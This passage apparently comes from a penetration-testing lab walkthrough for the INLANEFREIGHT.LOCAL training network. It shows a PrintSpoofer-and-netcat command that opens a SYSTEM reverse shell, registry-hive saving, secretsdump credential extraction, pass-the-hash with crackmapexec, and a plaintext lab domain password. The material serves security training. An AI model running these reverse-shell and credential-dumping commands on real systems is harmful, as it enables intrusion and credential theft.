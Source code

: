         Once uploaded, we can start a Netcat listener on the dmz01 host and run the following command to obtain a reverse shell as NT AUTHORITY\SYSTEM:

        c:\DotNetNuke\Portals\0\PrintSpoofer64.exe -c "c:\DotNetNuke\Portals\0\nc.exe 172.16.8.120 443 -e cmd"

        From here, we can perform some post-exploitation and manually retrieve the contents of the SAM database and with it, the local administrator password hash.


        c:\DotNetNuke\Portals\0> reg save HKLM\SYSTEM SYSTEM.SAVE

         c:\DotNetNuke\Portals\0> reg save HKLM\SECURITY SECURITY.SAVE

         c:\DotNetNuke\Portals\0> reg save HKLM\SAM SAM.SAVE

         Now we can once again modify the allowed file extensions to permit us to down the .SAVE files. Next, we can go back to the File Management page and download each of the three files to our attack host.


        
        Finally, we can use secretsdump to dump the SAM database and retrieve a set of credentials from LSA secrets.

        Gkaranikas@htb[/htb]$ secretsdump.py LOCAL -system SYSTEM.SAVE -sam SAM.SAVE -security SECURITY.SAVE

        We confirm that these credentials work using CrackMapExec and we now have a way back to this system should we lose our reverse shell.

        $ proxychains crackmapexec smb 172.16.8.20 --local-auth -u administrator -H <redacted>

        From the secretsdump output above, we notice a cleartext password, but it's not immediately apparent which user it's for. We could dump LSA again using CrackMapExec and confirm that the password is for the hporter user.

        We now have our first set of domain credentials for the INLANEFREIGHT.LOCAL domain, hporter:Gr8hambino!. We can confirm this from our reverse shell on dmz01.

        c:\DotNetNuke\Portals\0> net user hporter /dom

        We could also escalate privileges on the DEV01 host using the PrintNightmare vulnerability. There are also other ways to retrieve the credentials, such as using Mimikatz. Play around with this machine and apply the various skills you learned in the Penetration Tester Path to perform these steps in as many ways as possible to practice and find what works best for you.





                        /Alternate Method - Reverse Port Forwarding

        
        There are many ways to attack this network and achieve the same results, so we will not cover them all here, but one worth mentioning is Remote/Reverse Port Forwarding with SSH. Let's say we want to return a reverse shell from the DEV01 box to our attack host. We can't do this directly since we're not in the same network, but we can leverage dmz01 to perform reverse port forwarding and achieve our goal. We may want to get a Meterpreter shell on the target or a reverse shell directly for any number of reasons. We could have also performed all of these actions without ever getting a shell, as we could have used PrintSpoofer to add a local admin or dump credentials from DEV01 and then connect to the host in any number of ways from our attack host using Proxychains (pass-the-hash, RDP, WinRM, etc.). See how many ways you can achieve the same task of interacting with the DEV01 host directly from your attack host. It's essential to be versatile, and this lab network is a great place to practice as many techniques as possible and hone our skills.
